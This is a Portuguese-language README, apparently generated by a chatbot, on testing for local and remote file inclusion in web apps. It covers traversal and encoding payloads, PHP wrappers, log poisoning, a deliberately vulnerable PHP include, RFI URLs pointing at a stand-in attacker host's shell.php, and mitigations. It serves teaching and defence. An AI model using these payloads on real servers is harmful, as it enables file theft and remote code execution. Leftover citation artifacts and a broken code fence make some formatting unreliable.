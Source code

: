 # 🧪 LFI & RFI – Testes de Inclusão de Arquivos

## 📌 Tipos de Vulnerabilidades

### LFI (Local File Inclusion)

Permite que um atacante inclua arquivos do sistema local, como `/etc/passwd`, por meio de parâmetros de URL mal validados.
A vulnerabilidade de Local File Inclusion (LFI) surge da utilização insegura de parâmetros HTTP para controle de conteúdo em aplicações web, prática comum em linguagens como PHP, Node.js e Java. Frameworks frequentemente usam templates para incluir dinamicamente conteúdos com base em parâmetros da URL, como em chamadas do tipo /index.php?page=about. Quando esses parâmetros são passados diretamente para funções como include() sem validação, atacantes podem explorar essa falha para incluir arquivos locais sensíveis, como /etc/passwd ou arquivos de configuração. Essa exposição pode revelar código-fonte e credenciais, facilitando ataques mais graves como SQL Injection ou escalonamento de privilégios. Em ambientes mal configurados, LFI pode evoluir para execução remota de código, comprometendo completamente o servidor e possibilitando movimentação lateral e persistência.

### RFI (Remote File Inclusion)

Permite incluir e executar arquivos hospedados remotamente em servidores controlados pelo atacante, geralmente via URL como `http://attacker.com/shell.php` ([Invicti][3], [Imperva][4]).

---

## ⚙️ Técnicas Comuns de Exploração

### Traversal (Escalonamento de Diretórios)

Uso de seqüências como `../../../../etc/passwd` ou encoded/truncation variations (ex: `....//....//etc/passwd`) para escapar do diretório raiz&#x20;
.

### Codificações e Encodings

* **URL Encoding**: `..%2F..%2Fetc/passwd`
* **Double Encoding**: `..%252F..%252Fetc`
* **UTF‑8 truncation / meta:** `%c0%ae%c0%ae/etc/passwd` ([Exploit Notes][5], [HackTricks][6])

### Null Byte (%00)

Usado para truncar a extensão `.php` em aplicações vulneráveis (funciona em versões anteriores ao PHP 5.4) ([Exploit Notes][5], [Medium][7]).

### Wrappers PHP (e.g. `php://filter`, `php://input`)

* Extrair conteúdo de arquivos via base64 (`php://filter/read=convert.base64-encode/resource=index.php`)
* Execution via `php://input` para LFI → RCE .

### Log Poisoning / Inclusion de Arquivos de Log

Inserção de payloads via user-agent ou parâmetros em logs do servidor (`/proc/self/environ`) e posterior inclusão através de LFI ([Medium][7], [Wikipedia][1]).

### Upload de Arquivos Temporários

Se uma vulnerabilidade de upload permitir a criação de arquivos temporários previsíveis, um LFI pode explorá-los antes que sejam excluídos ([HackTricks][6]).

---

## 🛠 Ferramentas Utilizadas

* **Fimap**: ferramenta para identificar e explorar LFI / RFI automaticamente ([HackTricks][6]).
* Ferramentas de pentest como **Burp Suite**, **ZAP**, **Nessus**, e **Acunetix / Invicti**, capazes de detectar automaticamente pontos de inclusão de arquivos ([Number Analytics][8], [Invicti][2], [Invicti][3]).

---

## 🚫 Prevenção e Mitigações

### Validação de Entrada

* **Utilize whitelist** de arquivos permitidos ao invés de aceitar qualquer valor do usuário ([Medium][7], [Invicti][2], [Invicti][3]).
* Bloqueie ou filtre strings perigosas como `../`, `://` ou sequências codificadas.

### Configurações seguras de PHP

* **Desative `allow_url_include = Off`** (PHP ≥ 7.4 descontinuou essa funcionalidade) .
* **Desative `allow_url_fopen`**, se possível.

### Isolamento de Ambiente

Hospede as aplicações em ambientes isolados (como Docker) para limitar o impacto de possíveis inclusões arbitrárias ([Invicti][2]).

### Evitar Blacklists

Blacklists e filtros são insuficientes — atacantes podem contornar rapidamente com técnicas de encoding ou wrappers ([Invicti][2], [Medium][7]).

---

## 📋 Exemplos

### Vulnerável em PHP:

```php
<?php
$page = $_GET['page'];
include("pages/$page");
?>
```

Ataque típico LFI:

```
/script.php?page=../../../../etc/passwd
```

Ataque RFI (para servidores com `allow_url_include` ativado):

````
/script.php?page=http://atacante.com/shell.php
``` :contentReference[oaicite:14]{index=14}

---

## 🔎 Fluxo Típico de Teste

1. Identificar parâmetros passados para funções `include`, `require`, etc.
2. Testar traversal simples e encoded payloads.
3. Avaliar possibilidade de incluir arquivos de logs ou wrappers.
4. Testar RFI em ambientes PHP configurados com `allow_url_include`.
5. Automatizar com Fimap ou Burp Suite para descobertas escaláveis.
6. Validar configurações de whitelist ou desabilitar inclusões dinâmicas.

---

## ✅ Resumo

| Tipo    | Finalidade               | Risco principal                            |
|---------|---------------------------|--------------------------------------------|
| **LFI** | Inclusão de arquivos locais | Vazamento de dados ou escalation para RCE |
| **RFI** | Inclusão de arquivos remotos | Execução arbitrária de código no servidor  |

### Mitigação:
- Whitelist de valores permitidos
- Desativar features de include remoto
- Usar práticas sólidas de validação e codificação segura

---

## 🧠 Referências

- HackTricks: File Inclusion / Path traversal – técnicas e payloads para LFI/RFI :contentReference[oaicite:15]{index=15}  
- Invicti / Spanning / Imperva – definições, riscos e mitigação de LFI/RFI :contentReference[oaicite:16]{index=16}  
- Wikipedia e Exploit‑Notes – exemplos técnicos e encodings comuns :contentReference[oaicite:17]{index=17}

---

Se quiser que torne esse README mais detalhado (com payloadlists ou scripts), posso expandir!
::contentReference[oaicite:18]{index=18}
````

[1]: https://en.wikipedia.org/wiki/File_inclusion_vulnerability?utm_source=chatgpt.com "File inclusion vulnerability"
[2]: https://www.invicti.com/learn/local-file-inclusion-lfi/?utm_source=chatgpt.com "Local File Inclusion (LFI) - Invicti"
[3]: https://www.invicti.com/learn/remote-file-inclusion-rfi/?utm_source=chatgpt.com "Remote File Inclusion (RFI) - Invicti"
[4]: https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/?utm_source=chatgpt.com "What is RFI | Remote File Inclusion Example & Mitigation Methods"
[5]: https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/?utm_source=chatgpt.com "File Inclusion (LFI/RFI) - Exploit Notes"
[6]: https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion?utm_source=chatgpt.com "File Inclusion/Path traversal - HackTricks - Boitatech"
[7]: https://medium.com/%40Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601?utm_source=chatgpt.com "Local File Inclusion (LFI) — Web Application Penetration Testing"
[8]: https://www.numberanalytics.com/blog/file-inclusion-exploitation-penetration-testing?utm_source=chatgpt.com "File Inclusion Exploitation: A Penetration Tester's Guide"
